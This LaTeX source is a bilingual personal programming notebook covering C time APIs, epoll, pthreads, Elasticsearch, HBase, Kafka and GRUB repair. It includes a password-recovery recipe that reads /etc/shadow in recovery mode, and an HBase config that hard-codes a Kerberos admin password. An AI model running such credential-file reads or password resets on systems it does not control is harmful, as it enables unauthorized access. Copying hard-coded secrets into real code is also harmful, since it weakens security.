\State $ep\gets 0$
\While{\texttt{True}}
\State $chunkSize \gets msg[ep:ep+64]$
\State $chunkLen \gets hex2int(chunkSize)$
\If{$chunkLen = 0$}
\State \textbf{break}
\EndIf
\State $ep \gets ep + len(chunkSize)$
\State $output \gets output + msg[ep:ep+chunkLen]$
\State $ep \gets ep + chunkLen$
\EndWhile\label{euclidendwhile}
\State \textbf{return} $output$\Comment{output is the decoded content}
\EndProcedure
\end{algorithmic}
\label{alg:static}
\end{algorithm}
\end{verbatim}




















\section{Writing with Markdown}

\subsection{scientific citation}

With a BibTex Library, a citation is like 
\begin{verbatim}

text text text [@citation-key] text text

\end{verbatim}

Then we can use Pandoc to generate a docx file:

\begin{verbatim}
 pandoc  -o x.docx --bibliography x.bib x.md
\end{verbatim}

\section{Microsoft Office Tricks}

\subsection{Word Update all fields}
Select All and Ctrl + F9.


%!Mode:: "TeX:UTF-8"
 \chapter{Unix编程接口}

%!Mode:: "TeX:UTF-8"
\section{C/C++中的日期和时间}

\subsection{基本常识}

世界标准世界(Coordinated Universal Time, UTC):协调世界时,又称格林威治标准时间(Greenwich Mean Time,GMT)。中国内地的时间与UTC的时差为+8,也就是UTC+8。美国是UTC-5。 

日历时间(Calendar Time):代表从一个日历参考点到此时的时间经过的秒数。日历参考点(Epoch)因编译器而异,如Unix系统通常使用UTC时间1970年元旦零点作为参考点,称作Unix时间或POSIX时间。

时钟计时单元(clock tick, 而不把它叫做时钟滴答次数):一个时钟计时单元的时间长短是由CPU控制的,但一个clock tick未必是CPU的一个时钟周期,而是C/C++的一个基本计时单位。


\subsection{程序时间:毫秒级精度}
time.h提供了如下计时函数clock(),返回从开启这个程序进程到程序中调用该函数时之间的CPU时钟计时单元(clock tick)数,称为挂钟时间(wall-clock):
\begin{lstlisting}[language=C]
clock_t clock(void);
\end{lstlisting}

函数其中clock\_t定义在time.h文件中,经常是long类型。time.h文件还定义了一个常量表示一秒钟会有多少个时钟计时单元: 
\begin{lstlisting}[language=C]
#define CLOCKS_PER_SEC ((clock_t)1000) 
\end{lstlisting}
表达式\verb|clock()/CLOCKS_PER_SEC|返回一个进程自身的运行时间。

\subsection{日历时间:秒级精度}
time.h通过time()函数返回日历时间,为从日历参考点到此时的秒数。
\begin{lstlisting}[language=C]
time_t time(time_t * timer); 
\end{lstlisting}

time\_t定义于time.h中,可能是long型。如果time\_t类型占32位,且日历参考点为Unix时间,则其表示的时间不能晚于2038年1月18日19时14分07秒。一些编译器厂商引入了64位甚至更长的整形数来保存日历时间。比如微软在Visual C++中采用\verb+__time64_t+数据类型来保存日历时间,并通过\verb|_time64()|函数来获得日历时间(而不是通过使用32位字的time()函数),这样就可以通过该数据类型保存3001年1月1日0时0分0秒(不包括该时间点)之前的时间。 

time.h提供difftime函数,实现两个日历时间值的简单相减(虽然返回值被转换为double型),无大用:
\begin{lstlisting}[language=C]
time_t difftime(time_t t1, time_t t2); 
\end{lstlisting}


\subsection{分解时间}

标准C/C++通过time.h定义tm结构保存时间结构: 
\begin{lstlisting}[language=C]
#ifndef _TM_DEFINED 
struct tm { 
int tm_sec; /* 秒 – 取值区间为[0,59] */ 
int tm_min; /* 分 - 取值区间为[0,59] */ 
int tm_hour; /* 时 - 取值区间为[0,23] */ 
int tm_mday; /* 一个月中的日期 - 取值区间为[1,31] */ 
int tm_mon; /* 月份(从一月开始,0代表一月) - 取值区间为[0,11] */ 
int tm_year; /* 年份,其值等于实际年份减去1900 */ 
int tm_wday; /* 星期 – 取值区间为[0,6],其中0代表星期天,1代表星期一,以此类推 */
int tm_yday; /* 从每年的1月1日开始的天数 – 取值区间为[0,365],其中0代表1月1日,1代表1月2日,以此类推 */ 
int tm_isdst; /* 夏令时标识符,实行夏令时的时候,tm_isdst为正。不实行夏令时的进候,tm_isdst为0;不了解情况时,tm_isdst()为负。*/ 
}; 
#define _TM_DEFINED 
#endif 
\end{lstlisting}

ANSI C标准称使用tm结构的这种时间表示为分解时间(broken-down time)。

time.h提供了以下函数实现日历时间和分解时间的相互转换: 
\begin{lstlisting}[language=C]
struct tm *gmtime(const time_t *timer); 
struct tm *localtime(const time_t *timer); 
time_t mktime(struct tm *timeptr); 
\end{lstlisting}

\subsection{时间显示}
asctime函数将tm结构转换为字符串:
\begin{lstlisting}[language=C]
char *asctime(const struct tm *timeptr);
\end{lstlisting}

asctime通过以下格式显示时间:
\begin{verbatim}
星期几 月份 日期 时:分:秒 年\n\0 
例如:Wed Jan 02 02:03:55 1980\n\0 
\end{verbatim}

ctime函数将日历时间转换为字符串,相当于嵌套调用localtime和asctime:
\begin{lstlisting}[language=C]
char * ctime(const time_t *timer); 
\end{lstlisting}

time.h还提供strftime实现更灵活的时间显示格式:
\begin{lstlisting}[language=C]
size_t strftime(char *strDest, size_t maxsize, const char *format, const struct tm *timeptr); 
\end{lstlisting}

strftime()根据format指向字符串中指定的格式命令把timeptr中保存的时间信息放在strDest指向的字符串中,最多向strDest中存放maxsize个字符。该函数返回向strDest指向的字符串中放置的字符数,使用方式类似于snprintf()。关于显示格式,strftime用\%B表示月份,\%G表示年份,等等。

\subsection{POSIX下的时间获取与设置:微秒精度}
sys/time.h提供了以下函数用于时间获取和设置:
\begin{lstlisting}[language=C]
int gettimeofday(struct timeval *tv, struct timezone *tz);
int settimeofday(const struct timeval *tv, const struct timezone *tz);
\end{lstlisting}

其中timeval结构代表自日历参考点以来的时间:

\begin{lstlisting}[language=C]
    struct timeval {
    time_t      tv_sec;     /* seconds */
    suseconds_t tv_usec;    /* microseconds */
    };
\end{lstlisting}

timezone结构定义如下:
\begin{lstlisting}[language=C]
    struct timezone {
    int tz_minuteswest;     /* minutes west of Greenwich */
    int tz_dsttime;         /* type of DST correction */
    };
\end{lstlisting}

timezone结构的使用已经过时,应该设置为NULL。尤其是tz\_dsttime字段,其在内核中的使用被视作bug。

这两个函数调用成功则返回零,失败则返回-1,同时设置errno。



















%!Mode:: "TeX:UTF-8"
\section{I/O复用}

\subsection{select API}

\begin{lstlisting}[language=C++]
int select(int nfds, fd_set *readfds, fd_set *writefds, 
  fd_set *exceptfds, struct timeval *timeout);
\end{lstlisting}

select对应于内核中的sys\_select调用,sys\_select首先将第二三四个参数指向的fd\_set拷贝到内核,然后对每个被SET的 述符调用进行poll,并记录在临时结果中(fdset),如果有事件发生,select会将临时结果写到用户空间并返回;当轮询一遍后没有任何事件发生时,如果指定了超时时间,则select会睡眠到超时,睡眠结束后再进行一次轮询,并将临时结果写到用户空间,然后返回。

poll本质上和select没有区别,它将用户传入的数组拷贝到内核空间,然后查询每个fd对应的设备状态,如果设备就绪则在设备等待队列中加入一项并继续遍历,如果遍历完所有fd后没有发现就绪设备,则挂起当前进程,直到设备就绪或者主动超时,被唤醒后它又要再次遍历fd。这个过程经历了多次无谓的遍历。
它没有最大连接数的限制,原因是它是基于链表来存储的,但是同样有一个缺点:
大量的fd的数组被整体复制于用户态和内核地址空间之间,而不管这样的复制是不是有意义。
poll还有一个特点是“水平触发”,如果报告了fd后,没有被处理,那么下次poll时会再次报告该fd。

epoll支持水平触发和边缘触发,最大的特点在于边缘触发,它只告诉进程哪些fd刚刚变为就需态,并且只会通知一次。
在前面说到的复制问题上,epoll使用mmap减少复制开销。
还有一个特点是,epoll使用“事件”的就绪通知方式,通过epoll\_ctl注册fd,一旦该fd就绪,内核就会采用类似callback的回调机制来激活该fd,epoll\_wait便可以收到通知


\subsection{epoll相对select优点}
select和epoll这两个机制都是多路I/O机制的解决方案,select为POSIX标准中的,而epoll为Linux所特有的。

传统的select/poll每次调用都会线性扫描全部的集合,导致效率呈现线性下降。
epoll的IO效率不随FD数目增加而线性下降。
如果所有的socket基本上都是活跃的---比如一个高速LAN环境,过多使用epoll,效率相比还有稍微的下降。但是一旦使用idle connections模拟WAN环境,epoll的效率就远在select/poll之上了。

poll的执行分三部分:
(1).将用户传入的pollfd数组拷贝到内核空间,因为拷贝操作和数组长度相关,时间上这是一个O(n)操作
(2).查询每个文件描述符对应设备的状态,如果该设备尚未就绪,则在该设备的等待队列中加入一项并继续查询下一设备的状态。 查询完所有设备后如果没有一个设备就绪,这时则需要挂起当前进程等待,直到设备就绪或者超时。设备就绪后进程被通知继续运行,这时再次遍历所有设备,以查找就绪设备。这一步因为两次遍历所有设备,时间复杂度也是O(n),这里面不包括等待时间.
(3). 将获得的数据传送到用户空间并执行释放内存和剥离等待队列等善后工作,向用户空间拷贝数据与剥离等待队列等操作的的时间复杂度同样是O(n)。


区别(epoll相对select优点)主要有三:
1.select的句柄数目受限,在linux/posix\_types.h头文件有这样的声明:\verb$#define __FD_SETSIZE 1024$表示select最多同时监听1024个fd。而epoll没有,它的限制是最大的打开文件句柄数目。
2.epoll的最大好处是不会随着FD的数目增长而降低效率,在selec中采用轮询处理,其中的数据结构类似一个数组的数据结构,而epoll是维护一个队列,直接看队列是不是空就可以了。epoll只会对"活跃"的socket进行操作---这是因为在内核实现中epoll是根据每个fd上面的callback函数实现的。那么,只有"活跃"的socket才会主动的去调用 callback函数(把这个句柄加入队列),其他idle状态句柄则不会,在这点上,epoll实现了一个"伪"AIO。但是如果绝大部分的I/O都是“活跃的”,每个I/O端口使用率很高的话,epoll效率不一定比select高(可能是要维护队列复杂)。
3.使用mmap加速内核与用户空间的消息传递。无论是select,poll还是epoll都需要内核把FD消息通知给用户空间,如何避免不必要的内存拷贝就很重要,在这点上,epoll是通过内核于用户空间mmap同一块内存实现的。


\subsection{epoll API}

1.
\begin{lstlisting}[language=C++]
int epoll_create(int size);
\end{lstlisting}

创建一个epoll的句柄,size用来告诉内核这个监听的数目最大值。用close()来关闭。

2.
\begin{lstlisting}[language=C++]
//epoll的事件注册函数
int epoll_ctl(int epfd, int op, int fd, 
  struct epoll_event *event);
\end{lstlisting}
第一个参数是epoll\_create()的返回值,第二个参数表示动作,用三个宏来表示:
\begin{verbatim}
EPOLL_CTL_ADD:注册新的fd到epfd中;
EPOLL_CTL_MOD:修改已经注册的fd的监听事件;
EPOLL_CTL_DEL:从epfd中删除一个fd;
\end{verbatim}
第三个参数是需要监听的fd,第四个参数是告诉内核需要监听什么事,数据结构如下:
\begin{lstlisting}[language=C++]
typedef union epoll_data {
      void        *ptr;
      int          fd;
      uint32_t     u32;
      uint64_t     u64;
} epoll_data_t;

struct epoll_event {
    uint32_t events; /* Epoll events */
    epoll_data_t data;/* User data variable */
};
\end{lstlisting}
events可以是以下几个宏的集合:
\begin{lstlisting}[language=C++]
EPOLLIN :可读(包括对端SOCKET正常关闭)
EPOLLOUT:可写
EPOLLPRI:有紧急的数据可读(这里应该表示有带外数据到来)
EPOLLERR:表示对应的文件描述符发生错误
EPOLLHUP:表示对应的文件描述符被挂断
EPOLLET: 设为边缘触发(Edge Triggered)模式,这是相对于水平触发(Level Triggered)来说的
EPOLLONESHOT:只监听一次事件就会把这个fd从epoll的队列中删除
\end{lstlisting}


3.
\begin{lstlisting}[language=C++]
int epoll_wait(int epfd, struct epoll_event *events, 
  int maxevents, int timeout);
\end{lstlisting}
等待事件的产生,类似于select()调用。参数events用来从内核得到事件的集合,maxevents告之内核这个events有多大,这个maxevents的值不能大于创建epoll\_create()时的size,参数timeout是超时时间(毫秒,0会立即返回,-1是永久阻塞)。该函数返回需要处理的事件数目,如返回0表示已超时















\section{Elastic Search}

\subsection{management}
\begin{verbatim}
List all indices
curl -XGET 'localhost:9200/_cat/indices?v&pretty'

Delete by queries:
curl -XPOST 'localhost:9200/twitter/_delete_by_query?pretty' -d'
{
  "query": { 
    "match": {
      "message": "some message"
    }
  }
}'


\end{verbatim}

\subsection{search examples}
\begin{verbatim}

curl -XGET 'localhost:9200/twitter/_search?q=user:kimchy&pretty'
curl -XGET 'localhost:9200/kimchy,elasticsearch/tweet/_search?q=tag:wow&pretty'


Index information query:
curl -XGET 172.30.30.247:9200/cdds/?pretty

Query all records about one sip
curl -XGET 172.30.30.247:9200/cdds/bj_20160219/_search?pretty -d '{"query":{"match":{"sip":"137.236.30.78"}}}'


\end{verbatim}

\subsection{Elasticsearch in Python}
elasticsearch-py requires the following dependancies: urllib3, linecache2,
argparse, six, pbr, traceback2, unittest2.



\subsection{Elasticsearch in Spark}

\url{https://www.elastic.co/guide/en/elasticsearch/hadoop/current/spark.html}


















%!Mode:: "TeX:UTF-8"
\section{Linux平台C语言获取本机IP}
方法一:通过gethostname和gethostbyname

方法二:getifaddrs函数获取网卡的所有IP地址

方法三: getsockname获取某个连接所使用的本地IP


\section{Hbase API}

\subsection{Accessing HBase with kerberos}

Kerberos authentication is required to write Java™ programs to access HBase.

\begin{verbatim}
System.setProperty("java.security.krb5.conf", "/etc/krb5.conf");
conf.set("hadoop.security.authentication", "kerberos");
conf.set("hbase.security.authentication", "kerberos");
conf.set("kerberos.kdc.host", "10.96.208.5");
onf.set("kerberos.principal", "u_chanct@HADOOP.COM");
conf.set("kerberos.cm.admin.pwd", "111111");
conf.set("hbase.master.kerberos.principal","hbase /_HOST@HADOOP.COM"); 
conf.set("hbase.regionserver.kerberos.principal","hbase/_HOST@HADOOP.COM"); 
conf.set("hbase.zookeeper.property.clientPort", "2181");
conf.set("hbase.zookeeper.quorum", "10.96.208.1");   
UserGroupInformation.loginUserFromKeytab("u_chanct@HADOOP.COM", "/home/u_chanct.keytab"); 
\end{verbatim}

Add configuration directory of HBase (i.e. /etc/hbase/conf ) 
to classpath if all the configuration items are already in configuration files.



\begin{verbatim}
    https://www.ibm.com/support/knowledgecenter/en/SSPT3X_3.0.0/com.ibm.swg.im.infosphere.biginsights.admin.doc/doc/kerberos_hbase.html
    https://community.hortonworks.com/articles/48831/connecting-to-hbase-in-a-kerberos-enabled-cluster.html

\end{verbatim}


\subsection{Accessing HBase from Spark}

\href{Spark Streaming with HBase}{https://mapr.com/blog/spark-streaming-hbase/}
mentioned how to read and write HBase from Spark's perspective, 
with newAPIHadoopRDD and saveAsHadoopDataset interfaces.





%!Mode:: "TeX:UTF-8"
\section{Java Frameworks}


\href{https://en.wikipedia.org/wiki/Java_Platform,_Enterprise_Edition}{Java
Platform, Enterprise Edition or Java EE} is a widely used enterprise computing
The platform provides an API and runtime environment for developing and running
enterprise software, including network and web services, and other large-scale, multi-tiered, scalable, reliable, and secure network applications. 
Java EE extends the Java Platform, Standard Edition (Java SE), providing an API for object-relational mapping, distributed and multi-tier architectures, and web services.

The \href{https://en.wikipedia.org/wiki/Spring_Framework}{Spring Framework} is
an application framework and inversion of control (IoC) container for the Java platform.
The framework's core features can be used by any Java application, but there are extensions for building web applications on top of the Java EE platform. 
Although the framework does not impose any specific programming model, 
it has become popular in the Java community as an alternative to, replacement for, or even addition to the Enterprise JavaBeans (EJB) model. 
The Spring Framework is open source.


\href{https://en.wikipedia.org/wiki/Enterprise_JavaBeans}{Enterprise JavaBeans (EJB)} 
is a managed, server software for modular construction of enterprise
software, and one of several Java APIs.
EJB is a server-side software component that encapsulates the business logic of an application.
The EJB specification is a subset of the Java EE specification. 
An EJB web container provides a runtime environment for web related software components, including computer security, Java servlet lifecycle management, transaction processing, and other web services.

The complexity issue continued to hinder EJB's acceptance.
\href{https://en.wikipedia.org/wiki/Hibernate_(framework)}{Hibernate} (for persistence and object-relational mapping) and 
\href{https://en.wikipedia.org/wiki/Spring_Framework}{Spring Framework} (which provided an alternate and far less verbose way to encode
business logic) were created to replace it and grew in popularity, despite
lacking the support of big businesses.


\href{https://en.wikipedia.org/wiki/Hibernate_(framework)}{Hibernate ORM} 
(Hibernate in short) is an object-relational mapping framework for the Java language. 
It provides a framework for mapping an object-oriented domain model to a relational database. 
Hibernate solves object-relational impedance mismatch problems by replacing direct, persistent database accesses with high-level object handling functions.
Hibernate's primary feature is mapping from Java classes to database tables; and
mapping from Java data types to SQL data types. Hibernate also provides data query and retrieval facilities. It generates SQL calls and relieves the developer from manual handling and object conversion of the result set.

\href{https://en.wikipedia.org/wiki/Apache_Struts_2}{Apache Struts 2} is an
open-source web application framework for developing Java EE web applications. 
It uses and extends the Java Servlet API to encourage developers to adopt a model–view–controller (MVC) architecture.
 It favors convention over configuration, is extensible using a plugin architecture, and ships with plugins to support REST, AJAX and JSON.

The integration of Struts, Spring and Hibernate is often abbreviated as
\textbf{SSH}.



\href{https://en.wikipedia.org/wiki/Non-blocking_I/O_(Java)}{Non-blocking I/O}
(usually called \textbf{NIO}, and sometimes called "New I/O") is a collection of
Java programming language APIs that offer features for intensive I/O operations.
It was introduced with the J2SE 1.4 release of Java by Sun Microsystems to complement an existing standard I/O.

\href{https://en.wikipedia.org/wiki/Netty_(software)}{Netty} is a NIO
client-server framework for the development of Java network applications such as protocol servers and clients. 
The asynchronous event-driven network application framework and tools are used to simplify network programming such as TCP and UDP socket servers.
Netty includes an implementation of the reactor pattern of programming.

\href{https://en.wikipedia.org/wiki/Apache_MINA}{Apache MINA} (Multipurpose
Infrastructure for Network Applications) is an open source Java network application framework. MINA can be used to create scalable, high performance network applications. 
MINA provides unified APIs for various transports like TCP, UDP, serial communication. 
It also makes it easy to make an implementation of custom transport type. 
MINA provides both high-level and low-level network APIs.











\section{Common Java Libraries}


\href{https://github.com/akullpp/awesome-java}{Awesome Java} provides a curated
list of awesome Java frameworks, libraries and software.
\href{https://java.libhunt.com/}{java.libhunt.com} is a frontend for Awesome
Java.










See also:

\url{ http://www.importnew.com/7530.html}


%!Mode:: "TeX:UTF-8"
\section{Apache Kafka}

\href{https://en.wikipedia.org/wiki/Apache_Kafka}{Apache Kafka} is an
open-source message broker project developed by the Apache Software Foundation written in Scala.


A simple kafka producer in Python using python-kafka package:
\begin{verbatim}
from kafka import KafkaProducer
producer = KafkaProducer(bootstrap_servers='172.30.30.247:9092')
for _ in range(10):
    producer.send('topic_name', b'some_message_bytes') 
\end{verbatim}


\section{matplotlib}


\subsection{Configuration on MacOS}

\begin{verbatim}
~/.config/matplotlib/matplotlibrc

backend      : TkAgg 
\end{verbatim}


%!Mode:: "TeX:UTF-8"
 
\section{进程/线程与CPU核的绑定}
\verb$sched_setaffinity$实现进程与核的绑定。

\begin{lstlisting}[language=C++]
int pthread_setaffinity_np(pthread_t thread, size_t cpusetsize, const  cpu_set_t *cpuset);
int pthread_getaffinity_np(pthread_t thread, size_t cpusetsize, cpu_set_t  *cpuset);
\end{lstlisting}
分别设置和获取线程的亲和性。

\verb$cpu_set_t$类似于select中的\verb$fd_set$可以理解为cpu集,也是通过约定好的宏来进行清除、设置以及判断:
\begin{lstlisting}[language=C++]
//初始化,设为空
void CPU_ZERO (cpu_set_t *set); 
//将某个cpu加入cpu集中 
void CPU_SET (int cpu, cpu_set_t *set); 
//将某个cpu从cpu集中移出 
void CPU_CLR (int cpu, cpu_set_t *set); 
//判断某个cpu是否已在cpu集中设置了 
int CPU_ISSET (int cpu, const cpu_set_t *set); 
\end{lstlisting}

cpu集可以认为是一个掩码,每个设置的位都对应一个可以合法调度的 cpu,而未设置的位则对应一个不可调度的 CPU。
换而言之,线程都被绑定了,只能在那些对应位被设置了的处理器上运行。通常,掩码中的所有位都被置位了,也就是可以在所有的cpu中调度。       
      
以下为测试代码:

\begin{lstlisting}[language=C++]
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <pthread.h>
#include <sched.h>

void *myfun(void *arg)
{
    cpu_set_t mask;
    cpu_set_t get;
    char buf[256];
    int i;
    int j;
    int num = sysconf(_SC_NPROCESSORS_CONF);<span style="white-space:pre">	</span>//统计cpu个数
    printf("system has %d processor(s)\n", num);

    for (i = 0; i < num; i++) {
        CPU_ZERO(&mask);
        CPU_SET(i, &mask);
        if (pthread_setaffinity_np(pthread_self(), sizeof(mask), &mask) < 0) {
            fprintf(stderr, "set thread affinity failed\n");
        }
        CPU_ZERO(&get);
        if (pthread_getaffinity_np(pthread_self(), sizeof(get), &get) < 0) {
            fprintf(stderr, "get thread affinity failed\n");
        }
        for (j = 0; j < num; j++) {
            if (CPU_ISSET(j, &get)) {
                printf("thread %d is running in processor %d\n", (int)pthread_self(), j);
            }
        }
        j = 0;
        while (j++ < 100000000) {
            memset(buf, 0, sizeof(buf));
        }
    }
    pthread_exit(NULL);
}

int main(int argc, char *argv[])
{
    pthread_t tid;
    if (pthread_create(&tid, NULL, (void *)myfun, NULL) != 0) {
        fprintf(stderr, "thread create failed\n");
        return -1;
    }
    pthread_join(tid, NULL);
    return 0;
}
\end{lstlisting}






%!Mode:: "TeX:UTF-8"
\section{pthread接口}

\subsection{数据类型}
\begin{verbatim}
pthread_t:线程句柄
pthread_attr_t:线程属性
pthread_mutex_t:互斥量
pthread_cond_t:条件变量
\end{verbatim}
每个线程都有errno副本。

\subsection{操纵函数}
\begin{verbatim}
pthread_create():创建一个线程
pthread_exit():终止当前线程
pthread_cancel():中断另外一个线程的运行
pthread_join():阻塞当前的线程,直到另外一个线程运行结束
pthread_attr_init():初始化线程的属性
pthread_attr_setdetachstate():设置脱离状态的属性(决定这个线程在终止时是否可以被结合)
pthread_attr_getdetachstate():获取脱离状态的属性
pthread_attr_destroy():删除线程的属性
pthread_kill():向线程发送一个信号
\end{verbatim}


\subsection{同步函数}
\begin{verbatim}
pthread_mutex_init() 初始化互斥锁
pthread_mutex_destroy() 删除互斥锁
pthread_mutex_lock():占有互斥锁(阻塞操作)
pthread_mutex_trylock():试图占有互斥锁(不阻塞操作)。即,当互斥锁空闲时,将占有该锁;否则,立即返回。
pthread_mutex_unlock(): 释放互斥锁
pthread_cond_init():初始化条件变量
pthread_cond_destroy():销毁条件变量
pthread_cond_signal(): 唤醒第一个调用pthread_cond_wait()而进入睡眠的线程
pthread_cond_wait(): 等待条件变量的特殊条件发生
Thread-local storage(或者以Pthreads术语,称作线程特有数据):
pthread_key_create(): 分配用于标识进程中线程特定数据的键
pthread_setspecific(): 为指定线程特定数据键设置线程特定绑定
pthread_getspecific(): 获取调用线程的键绑定,并将该绑定存储在 value 指向的位置中
pthread_key_delete(): 销毁现有线程特定数据键
pthread_attr_getschedparam();获取线程优先级
pthread_attr_setschedparam();设置线程优先级
\end{verbatim}

\subsection{工具函数}
\begin{verbatim}
pthread_equal(): 对两个线程的线程标识号进行比较
pthread_detach(): 分离线程
pthread_self(): 查询线程自身线程标识号
\end{verbatim}









\section{Redis Programming}

\url{http://www.tutorialspoint.com/redis/redis_java.htm}

\href{http://www.tutorialspoint.com/redis/redis_java.htm}{A Simple Jedis
Tutorial}

%!Mode:: "TeX:UTF-8"

\section{Socket Error Handling}

\href{http://my.oschina.net/costaxu/blog/127394}{几种TCP连接中出现RST的情况}


\href{http://russelltao.iteye.com/blog/1405349}{从TCP协议的原理来谈谈rst复位攻击}

\subsection{graceful shutdown of sockets}

 It is important to distinguish the difference between \emph{shutting down a
 socket connection} and \emph{closing a socket}.


Shutting down a socket connection involves an exchange of protocol messages between the two endpoints,
hereafter referred to as a shutdown sequence. 
Two general classes of shutdown sequences are defined: graceful and abortive (also called hard).
In a graceful shutdown sequence, any data that has been queued, but not yet transmitted can be sent prior to the connection being closed. 
In an abortive shutdown, any unsent data is lost. 
The occurrence of a shutdown sequence (graceful or abortive) can also be used to provide an FD_CLOSE indication to the associated applications signifying that a shutdown is in progress.

Closing a socket, on the other hand, causes the socket handle to become
deallocated so that the application can no longer reference or use the socket in any manner.


When you have finished using a socket, you can simply close its file descriptor with close. 
If there is still data waiting to be transmitted over the connection, normally close tries to complete this transmission. 
You can control this behavior using the SO\_LINGER socket option to specify a timeout period. 
You can also shut down only reception or transmission on a connection by calling shutdown





%!Mode:: "TeX:UTF-8"
\section{Apache Spark}

\subsection{Pitfalls}

1. use of var in filters may not work. Unwanted values can still pass filtering.
2. use of hash tables without broadcasting it is as effective as using an empty
table.
3.

%!Mode:: "TeX:UTF-8"
\section{系统调用}
fork()函数在父进程返回子进程pid,在子进程中返回0。

\subsection{获取内核态信息}
通常在C语言中通过读取proc文件系统来获取内核信息。libproc等库对这一功能进行了一定的封装。



%!Mode:: "TeX:UTF-8"
\section{Zeromq}

\href{https://en.wikipedia.org/wiki/ZeroMQ}{ZeroMQ} (also known as zmq) looks
like an embeddable networking library but acts like a concurrency framework. It gives you sockets that carry atomic messages across various transports like in-process, inter-process, TCP, and multicast. You can connect sockets N-to-N with patterns like fan-out, pub-sub, task distribution, and request-reply. It's fast enough to be the fabric for clustered products. 
Its asynchronous I/O model gives you scalable multicore applications, built as asynchronous message-processing tasks. 
 It provides a message queue, but unlike
 \href{https://en.wikipedia.org/wiki/Message-oriented_middleware}{message-oriented
 middleware}, a ZeroMQ system can run without a dedicated message broker. The
 library's API is designed to resemble that of Berkeley sockets.

 A basic
 \href{http://zguide.zeromq.org/py:hwclient}{client}
 and \href{http://zguide.zeromq.org/py:hwserver}{server} 
 program in Python can be found in the official site.

 
%!Mode:: "TeX:UTF-8"
 \chapter{电脑操作技巧}

%!Mode:: "TeX:UTF-8"
\section{启动与登陆}
\subsection{ISO镜像与光盘}
在Ubuntu下将文件夹做成iso镜像的工具叫做genisoimage(原名mkisofs)。可引导光盘加载后对相应文件夹使用genisoimage工具,会失去引导性。如欲保留引导性,可以使用dd工具对裸设备进行操作。如:

\verb+dd if=/dev/sr0 of=deepin.iso+

如需将iso烧录入光盘,可以使用Brasero工具。这很可能是Ubuntu系统自带的。


\subsection{USB启动盘}

可以使用dd命令或使用一些图形工具。在维基百科上有一个制作LiveUSB的软件列表。包括:
\begin{itemize}
  \item Fedora Liveusb-creator,在Windows或Linux下制作Fedora的LiveUSB
  \item Ubuntu Liveusb Creator(在命令为usb-creator-gtk或usb-creator-kde)
  \item LinuxLive USB Creator,在Windows上制作Linux LiveUSB
  \item Unetbootin,在Windows或Linux下制作UNIX LiveUSB,Ubuntu软件仓库有提供
\end{itemize}
我自己用优盘实际创建启动盘,在Ubuntu下使用Ubuntu Liveusb Creator制作失败了。用dd和Unetbootin制作成功。

如果使用dd命令,先umount这个USB设备,其名称可能是sdb1。但dd命令要作用与sdb而不是sdb1上。
\begin{verbatim}
dd if=linux_image.iso of=/dev/sdb
\end{verbatim}
尝试使用dd命令将Windows安装镜像做成启动盘,未能成功,U盘在启动时未能引导,依然由硬盘进行了引导。

制作完成后,需要更改BIOS设置,让USB-HDD(或其他USB设备类型)的设备启动优先级高于HDD。优盘可能被当作硬盘处理,如果是这种优盘,开机时需要在BIOS设置中更改的不是设备启动顺序,而是HDD启动优先级。在实验室电脑上DEL键进入BIOS设置。


\subsection{修改Grub配置}
配置/etc/default/grub文件,然后运行update-grub,会自动生成/boot/grub/grub.cfg文件
\subsection{安装Grub}
如果安装了多个Linux系统,最后一个安装的系统的GRUB会覆盖之前安装的GRUB。
如果这不是所希望的,可以进入心目中的默认系统重新安装GRUB。如果最后安装的是Windows,
则GRUB会被破坏,不会在开机时显示GRUB界面,也需要设法进入Linux后重新安装GRUB。
进入所希望的Linux系统后,执行grub-install。
 grub-install 将GRUB镜像复制到/boot/grub, 并调用grub-setup来将grub安装到boot扇区。
 如果是从LiveCD进入的系统,执行grub-install前先chroot。
 \begin{verbatim}
   sudo mount /dev/sdaX /mnt/root
   sudo mount --rbind /dev /mnt/root/dev
   sudo mount --rbind /proc /mnt/root/proc
   sudo chroot /mnt/root grub-install /dev/sda
 \end{verbatim}
 
 
如果没有LiveCD,在进入系统前停留在了如下界面上:
\begin{verbatim}
GRUB loading
error:unknow filesystem
grub rescue>
\end{verbatim}
可以执行ls命令,找到Linux被安装在了哪个分区。如果确定了分区,比如,(hd0,5),则执行\verb+ls (hd0,5)+时会看到许多mod文件。
安装normal.mod:
\begin{verbatim}
grub rescue>set root=(hd0,5)
grub rescue>set prefix=(hd0,5)/boot/grub
grub rescue>insmod /boot/grub/normal.mod
\end{verbatim}
执行normal命令,可以恢复Grub界面。进入Linux后重新安装GRUB即可。


\subsection{登陆密码恢复}
方法如下:

1、重新启动,按ESC键进入Boot Menu,选择recovery mode(一般是第二个选项)。

2、在\#号提示符下用cat /etc/shadow,看看用户名。

3、输入passwd "用户名"(引号要有的哦)。

4、输入新的密码.

5、重新启动,用新密码登录。 







%!Mode:: "TeX:UTF-8"
\section{实用计算、查询与搜索}

\subsection{算数}
Linux下一些CGI工具可以用作计算器,如Python,calc,bc等。

Python计算默认为整数计算,如需浮点数运算结果,可以在运算数后加.0;也可以在运行Python时使用命令行开关-Qnew

calc工具来自于apcalc软件包,可以实现任意精度的计算。calc默认就是浮点数计算,比较方便;而bc默认为整数计算。

bc其实是一种复杂的编程语言;如计算5/6, 设置精度为3位,则有:
\begin{verbatim}
	scale=3;5/6
\end{verbatim}

\subsection{进制转换}
可以用Python完成进制转换运算。

十进制转换为二进制、八进制、十六进制,可以分别使用函数bin,oct,hex。 
二进制,8进制,16进制转十进制容易,直接在互动界面上键入0xa3,0b101,0o33即可。

\subsection{ASCII码表}
可以查找man页:\verb+man ascii+
在Python下,十进制转ASCII可以用chr函数,反之使用ord。

\subsection{时间计算} 
Python的datetime包提供了日期与时间相关的操作。 参考\ref{sec:pythonTimeCalc}。



\subsection{日历查询}
cal工具能够打印某年或某月的日历,默认为本月。
\begin{verbatim}
cal #本月
cal 2012 #某年
cal -y 2012 #某年
cal -m 8 #今年某月
cal 8 2012 #某年某月
\end{verbatim}

date命令用各种格式显示指定时间:
\begin{verbatim}
date +%s  #当前epoch秒数
date +%A #今天星期几
date -r NUMBER #显示NUMBER表示的epoch秒数对应的时间
\end{verbatim}


calendar模块提供了查询平闰年和星期的功能,也能产生日历字符串。参考\ref{sec:pythonTimeCalc}。

\subsection{IP address search}
\begin{verbatim}
whois 202.38.95.110
\end{verbatim}

\subsection{IP address conversion to/from integer}

With Microsoft Excel:
\begin{verbatim}
=CONCATENATE(MOD(BITRSHIFT(D7,24),256),".",
MOD(BITRSHIFT(D7,16),256),".",
